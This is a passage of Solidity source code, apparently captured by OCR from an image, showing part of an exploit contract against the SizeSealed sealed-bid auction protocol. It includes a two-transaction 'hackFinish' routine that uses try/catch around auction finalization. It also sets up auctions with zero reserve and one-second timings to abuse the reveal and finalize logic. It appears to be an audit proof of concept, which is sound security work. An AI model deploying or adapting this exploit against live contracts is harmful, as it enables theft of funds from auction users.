             return block.timestamp;
        }
    
        // external to be used in try+catch statement
        function finishAuction(uint256 auctionId) external {
            require(msg.sender == address(this));
    
            sizeSealed.reveal(auctionId, privateKey, "");
            require(token1.balanceOf(address(this)) == 0);
    
            uint256[] memory bidIndices = new uint256[](1);
            bidIndices[0] = 0;
            sizeSealed.finalize(auctionId, bidIndices, type(uint128).max, type(uint128).max);
        }
    
        // Second transaction
        // block.timestamp should be greater or equal to (block.timestamp of the first transaction) + 1
        function hackFinish() external returns (uint256) {
            require(hackStartTimestamp != 0 && block.timestamp >= hackStartTimestamp + 1);
    
            try this.finishAuction(firstAuctionId) {
                // expected
            } catch {
                revert();
            }
    
            try this.finishAuction(secondAuctionId) {
                revert();
            } catch {
                // expected
            }
    
            return block.timestamp;
        }
    
        function createAuction(ERC20 baseToken, ERC20 quoteToken, uint128 totalBaseAmount) internal returns (uint256) {
            ISizeSealed.AuctionParameters memory auctionParameters;
            auctionParameters.baseToken = address(baseToken);
            auctionParameters.quoteToken = address(quoteToken);
            auctionParameters.reserveQuotePerBase = 0;
            auctionParameters.totalBaseAmount = totalBaseAmount;
            auctionParameters.minimumBidQuote = 0;
            auctionParameters.pubKey = ECCMath.publicKey(privateKey);
            
            ISizeSealed.Timings memory timings;
            timings.startTimestamp = uint32(block.timestamp);
            timings.endTimestamp = uint32(block.timestamp) + 1;
            timings.vestingStartTimestamp = uint32(block.timestamp) + 2;
            timings.vestingEndTimestamp = uint32(block.timestamp) + 3;
            timings.cliffPercent = 1e18; 
            
            return sizeSealed.createAuction(auctionParameters, timings, "");
        }
    }
